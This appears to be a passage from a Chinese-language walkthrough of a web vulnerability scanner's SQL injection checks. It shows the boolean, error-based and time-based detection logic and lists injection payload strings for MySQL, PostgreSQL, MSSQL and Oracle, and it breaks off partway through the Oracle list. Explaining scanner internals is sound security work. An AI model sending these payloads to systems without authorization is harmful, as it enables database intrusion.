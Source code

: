 然后会验证两次 两次都成功才认为是成功的  
```python
payload_true, payload_false = self.generatePayloads(payload, v, is_num)
ret1 = self.inject(origin_dict, positon, k, payload_false, payload_true)
if ret1:
    payload_true, payload_false = self.generatePayloads(payload, v, is_num)
    ret2 = self.inject(origin_dict, positon, k, payload_false, payload_true)
    if ret2:
        result = self.new_result()
        result.init_info(self.requests.url, "SQL注入", VulType.SQLI)
```


#### sqli_error 报错注入

报错注入的payload模板  

```python
num = random_num(4)
s = random_str(4)
_payloads = [
    '鎈\'"\(',
    "'", "')", "';", '"', '")', '";', ' order By 500 ', "--", "-0",
    ") AND {}={} AND ({}={}".format(num, num + 1, num, num),
    " AND {}={}%23".format(num, num + 1),
    " %' AND {}={} AND '%'='".format(num, num + 1), " ') AND {}={} AND ('{}'='{}".format(num, num + 1, s, s),
    " ' AND {}={} AND '{}'='{}".format(num, num + 1, s, s),
    '`', '`)',
    '`;', '\\', "%27", "%%2727", "%25%27", "%60", "%5C",
    "extractvalue(1,concat(char(126),md5({})))".format(random_num),
    "convert(int,sys.fn_sqlvarbasetostr(HashBytes('MD5','{}')))".format(random_num)
]
```

然后将payload 写到参数里请求 使用 `Get_sql_errors` 遍历判断数据库类型  

里面都是类似这种的 `errors.append(('System\.Data\.OleDb\.OleDbException', DBMS.MSSQL))`  


然后再用正则匹配下报错信息 `sensitive_page_error_message_check`  
匹配上了的话就输出结果


#### sqli_time 时间注入

padyload模板  
```python
num = random_num(4)
sql_times = {
    "MySQL": (
        " AND SLEEP({})".format(self.sleep_str),
        " AND SLEEP({})--+".format(self.sleep_str),
        "' AND SLEEP({})".format(self.sleep_str),
        "' AND SLEEP({})--+".format(self.sleep_str),
        "' AND SLEEP({}) AND '{}'='{}".format(self.sleep_str, num, num),
        '''" AND SLEEP({}) AND "{}"="{}'''.format(self.sleep_str, num, num)),
    "Postgresql": (
        "AND {}=(SELECT {} FROM PG_SLEEP({}))".format(num, num, self.sleep_str),
        "AND {}=(SELECT {} FROM PG_SLEEP({}))--+".format(num, num, self.sleep_str),
    ),
    "Microsoft SQL Server or Sybase": (
        " waitfor delay '0:0:{}'--+".format(self.sleep_str),
        "' waitfor delay '0:0:{}'--+".format(self.sleep_str),
        '''" waitfor delay '0:0:{}'--+'''.format(self.sleep_str)),
    "Oracle": (
        " and 1= dbms_pipe.receive_message('RDS', {})--+".format(self.sleep_str),
        "' and 1= dbms_pipe.receive_message('RDS', {})--+".format(self.sleep_str),
        '''"  and 1= dbms_pipe.receive_message('RDS', {})--+'''.format(self.sleep_str),
```